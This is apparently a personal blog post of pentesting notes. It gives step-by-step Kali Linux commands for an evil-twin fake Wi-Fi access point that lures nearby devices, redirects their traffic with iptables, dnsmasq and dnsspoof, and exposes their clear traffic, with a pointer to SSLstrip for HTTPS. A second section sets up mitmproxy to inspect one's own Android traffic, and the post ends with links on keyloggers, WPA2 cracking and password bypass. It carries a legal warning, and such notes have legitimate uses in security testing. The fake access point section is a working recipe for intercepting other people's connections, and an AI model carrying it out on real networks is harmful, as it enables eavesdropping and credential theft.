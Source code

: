 Title: Hacking
Date: 2016-01-18 23:00
Category: Linux
Tags: hacking, kali, security, android, mitm, linux
Slug: hacking
Authors: Romain Pellerin
Summary: A handful of useful commands about hacking

This brief article solely contains a few lines of commands, to perform pentesting or network monitoring. It's basically something I might use in the future on my networks or apps, so I'm writing it down as a reminder. I thought it may help other people that's why I decided to put it online. Of course the preferred operating system is [Kali](https://www.kali.org/) (or any Debian-based distro).

**WARNING: only for use on your own networks and devices, the law strictly forbids it otherwise.**

# Fake AP (access point)

This technique is about creating a fake access point, similar to one already existing, so that people's computers will try to connect to your fake AP automatically, without them noticing.

1. Deactivate any firewall first
2. Get super user rights

        :::bash
        sudo su

3. Install some required packages if not already present

        :::bash
        aptitude install dnsmasq aircrack-ng

4. List the existing network interfaces and turn one of them into monitor mode

        :::bash
        airmon-ng
        airmon-ng start wlan0 # wlan0 is usually Wifi

5. Start monitoring available networks around, and make a quick test

        :::bash
        airodump-ng mon0
        aireplay-ng --test mon0 # Test

6. Choose one network and fake it

        :::bash
        airbase-ng --essid 'HG655D-1BFF19' -c 7 -W 1 -Z 2 -v mon0 # Fake WPA AP

7. Enable packet forwarding

        :::bash
        echo 1 > /proc/sys/net/ipv4/ip_forward
        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

8. Write what follows in `/etc/dnsmasq.conf`:

        :::text
        interface=at0
        dhcp-range=192.168.0.50,192.168.0.150,12h

9. Do some other things for which I can't recall the usefulness right now (but I promise to update the article as soon as I do):

        :::bash
        ifconfig at0 192.168.0.1 up
        dnsmasq # pkill dnsmasq if needed

10. Write what follows in `/tmp/tests.conf` (`<tab>` means you have to hit the tab key):

        :::bash
        192.168.0.1<tab>*

11. Run `dnsspoof`:

        :::bash
        dnsspoof -i wlan0 -f /tmp/tests.conf

12. Finally, start a webserver (Apache or using Python, or whatever)

        :::bash
        python3 -m http.server 8080


And you're good! All the clear traffic will pop up right in front of your eyes. To deal with HTTPS connections, have a look at [SSLstrip](http://www.thoughtcrime.org/software/sslstrip/).

Encountering problems with DNSspoof? [Have a look there.](https://forums.hak5.org/index.php?/topic/29166-dnsspoof-problem/)

[More information about faking APs.](http://www.backtrack-linux.org/forums/showthread.php?t=61240)

[Another interesting tutorial ("Kali Linux Evil Wireless Access Point").](https://www.offensive-security.com/kali-linux/kali-linux-evil-wireless-access-point/)

# MITM

This is a commonly used technique to "put yourself" between a target user and an access point, in order to see all the traffic this user might send and receive.

## MITM on Android

On Android, it has the advantage of allowing you to monitor your outcoming traffic, which is useful when debugging your own apps.

1. Grant yourself super user rights and enable packet forwarding on the right interface (here `eth0` which is the Ethernet connection):

        :::bash
        sudo su
        sysctl -w net.ipv4.ip_forward=1
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

3. Install the required dependencies and mitmproxy:

        :::bash
        apt-get install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev
        easy_install mitmproxy

    You can as well [download mitmproxy and install it manually](http://docs.mitmproxy.org/en/stable/install.html#installation-on-ubuntu).


4. Run it:

        :::bash
        mitmproxy -T --no-upstream-cert --host [-p 8080] # -p is optional as 8080 is the default port

    The argument `-T` is for *transparent*. If you don't go for transparent, then the 3 lines about packet forwarding (point 1.) are useless (or maybe not, I can't remember).

5. On your Android device:
    1. Open the current Wifi settings (long-press on the connected network).
        * If you decided to do transparent proxying (see above), set proxy to your computer's IP and port 8080, like: `192.168.1.2:8080`
        * If you decided not to do transparent proxying (see above), don't set the proxy and instead set the IP to be static rather than using DHCP. Then write your computer's IP as the gateway.
    2. Go to the website [mitm.it](http://mitm.it) and click on the Android icon to install the certificate. If this doesn't work (website unreachable), push the certificate manually from your computer (run the following command from your computer):

            ::bash
            adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/Download

Then you'll see the traffic in your terminal going through!

This part has been inspired from [this article](https://medium.com/@rotxed/how-to-debug-http-s-traffic-on-android-7fbe5d2a34).

# Other tools

- [mitmAP - A python program, to create a fake AP, and sniff data](https://github.com/xdavidhu/mitmAP)

# Other related topics

- [How to: Reset user password in Windows 7/8/8.1](http://www.gvrachliotis.net/2013/10/how-to-reset-user-password-in-windows.html)
- [Les dénies de services](https://www.nolimitsecu.fr/les-denis-de-service/)
- [Wifi ouvert – Attention aux faux hotspot ! (+ une démo avec un module Arduino)](http://korben.info/wifi-ouvert-attention-aux-faux-hotspot-demo-module-arduino.html)
- [How I Cracked a Keylogger and Ended Up in Someone's Inbox](https://www.trustwave.com/Resources/SpiderLabs-Blog/How-I-Cracked-a-Keylogger-and-Ended-Up-in-Someone-s-Inbox/)
- [Stalking your Facebook friends on Tinder](https://defaultnamehere.tumblr.com/post/147747146865/stalking-your-facebook-friends-on-tinder)
- [Professionally Evil: This is NOT the Wireless Access Point You are Looking For](https://blog.secureideas.com/2013/05/professionally-evil-this-is-not.html)
- [Phreaklets: Cracking WPA2 Enterprise wireless networks with FreeRADIUS WPE, hostapd and asleap & John the Ripper](http://phreaklets.blogspot.kr/2013/06/cracking-wireless-networks-protected.html?m=1)
- [TP Mobilité et réseaux sans fil : réseau sans fil sécurisé et monitoré + mobilité IPv6](http://www.guiguishow.info/2016/10/12/tp-mobilite-et-reseaux-sans-fil-reseau-sans-fil-securise-et-monitore-mobilite-ipv6/)
- [Learn from your attackers – SSH HoneyPot](https://www.robertputt.co.uk/2016/11/28/learn-from-your-attackers-ssh-honeypot/)
- [Alexsey’s TTPs](https://medium.com/@chrismcnab/alexseys-ttps-1204d9050551)
- [KON-BOOT](http://www.piotrbania.com/all/kon-boot/)
- [Rickroller Spotify !](https://korben.info/rickroller-spotify.html)
- [Null Byte](https://null-byte.wonderhowto.com/)
